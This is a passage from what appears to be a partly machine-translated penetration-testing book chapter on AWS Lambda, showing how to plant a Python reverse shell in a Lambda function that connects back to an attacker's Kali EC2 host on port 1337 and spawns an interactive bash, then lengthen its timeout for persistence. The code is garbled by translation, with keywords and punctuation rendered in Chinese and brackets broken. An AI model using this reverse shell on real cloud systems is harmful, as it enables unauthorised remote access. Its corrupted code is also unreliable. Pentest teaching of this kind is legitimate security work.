     ![Figure 7.7 – Creating a function for a reverse shell  ](img/Figure_7.07_B15630.jpg)

    图 7.7–为反向外壳创建函数

3.  Now it's time to start setting up our function to create a reverse connection to the EC2 instance. I set up a GitHub repository from which we can pull the code: [https://github.com/PacktPublishing/AWS-Penetration-Testing/blob/master/Chapter%207:%20Assessing%20and%20Pentesting%20Lambda%20Services/Lambda_Shell.txt](https://github.com/PacktPublishing/AWS-Penetration-Testing/blob/master/Chapter%207:%20Assessing%20and%20Pentesting%20Lambda%20Services/Lambda_Shell.txt).

    您输入的代码应该如下所示：

    **导入套接字，子流程，操作系统**

    **def lambda_ 处理程序（事件、上下文）：**

    **#TODO 执行**

    **s=socket.socket（socket.AF\u INET，socket.SOCK\u STREAM）**

    **s.connect（“<主机名>”，1337））**

    **os.dup2（s.fileno（），0）**

    **os.dup2（s.fileno（），1）**

    **os.dup2（s.fileno（），2）**

    **p=subprocess.call（[“/bin/bash”，“-i”）；**

    这里的代码实质上是设置一个名为**lambda_handler**的函数，该函数将执行从 lambda 函数到攻击者机器的连接。请注意，当我们调用**s.connect**时，我们需要将我们的**公共 DNS**放在代码中，其中显示**主机名**。一旦函数被执行，它将启动一个到我们机器的连接，并在目标 Lambda 函数上执行一个 bashshell。

    确保您指定要使用的**端口**，并且**主机名**已设置为 EC2 实例上攻击者机器的公共 DNS 名称。您可以通过查看您的 Kali EC2 实例的描述（可在 EC2 仪表板上找到）来查看公共 DNS 名称。

4.  Next, we need to make sure that the function does not time out too quickly. By default, the function should be set to time out after about 3 seconds or so. We need to establish persistence, so we can go ahead and set the timeout to about **5** minutes – feel free to set it longer if you like:
